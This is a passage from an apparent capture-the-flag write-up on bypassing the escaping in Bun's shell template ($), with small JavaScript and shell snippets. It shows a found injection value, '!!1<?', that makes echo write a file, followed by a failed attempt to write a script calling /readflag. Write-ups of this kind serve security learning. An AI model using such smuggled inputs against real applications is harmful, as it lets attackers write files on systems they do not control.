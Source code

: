 If test folder is empty after `rm *; bun ../brute.js` then `check(LIM) = true` otherwise `check(LIM) = false`

I managed to find that `LIM = 59140`, and the payload that worked was `!!1<?`

```js
import { $ } from "bun";

let cmd = "!!1<?"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

Low and behold `echo !!1<?` worked, a wild `?` appeared with the content `!!`

```sh
> bun req.js  
!!1<?
> cat ?      
!!
```

![](brilliant.png)

But what can we do with an ability to write? The first thing that came to my mind was create a bash script:

```js
import { $ } from "bun";

let cmd = "/readflag give me the flag 1< flag.sh"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

Huh? What happened here, isn't `echo /readflag give me the flag 1< flag.sh` supposed to work?

```sh
> bun req.js
"/readflag give me the flag 1< flag.sh"
/readflag give me the flag 1< flag.sh

> cat flag.sh 
cat: flag.sh: No such file or directory
```

![](blunder.png)
